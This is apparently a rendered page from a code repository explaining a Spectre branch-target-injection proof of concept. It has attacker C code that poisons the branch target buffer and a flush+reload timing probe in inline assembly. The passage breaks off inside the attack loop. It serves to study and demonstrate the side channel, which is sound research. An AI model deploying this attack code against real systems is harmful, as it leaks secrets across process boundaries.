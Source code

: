 // Utility. All utility functions are placed on common so the spec function matches the same address on both victim and attacker. This is not necessary but makes the tests easier
unsigned string_to_unsigned(char *s)
{
    return atoi(s);
}

```

The attack consists in poisoning the BTB by calling the ```spec``` function and making it branch to ```spectre_gadget``` instead of ```safe_function```. After the training the victim process is created and it executes ```spec``` that mispredicts to ```spectre_gadget``` which should never be executed. The secret is leaked through a classic flush+reload side channel.

```
//gcc -o attacker attacker.c -O0 -masm=intel -no-pie -fno-stack-protector
#include "common.h"

#define PRINTNUM 1000

unsigned probe(char *adrs)
{
    volatile unsigned long time;
    asm __volatile__(
        "    mfence             \n"
        "    lfence             \n"
        "    rdtsc              \n"
        "    lfence             \n"
        "    mov esi, eax       \n"
        "    mov eax,[%1]       \n"
        "    lfence             \n"
        "    rdtsc              \n"
        "    sub eax, esi       \n"
        "    clflush [%1]       \n"
        "    mfence             \n"
        "    lfence             \n"
        : "=a"(time)
        : "c"(adrs)
        : "%esi", "%edx");
    return time;
}

int main(int argc, char *argv[])
{

    //Make spec function confuse safe_function with spectre_gadget
    codePtr = spectre_gadget;

    char dummy;
    int hits = 0;
    int tries = 0;
    char *sharedmem = open_shared_mem();
    setvbuf(stdout, NULL, _IONBF, 0);

    while (1)
    {
        //Inject the target in the BTB
        spec(&dummy, &dummy, 0);
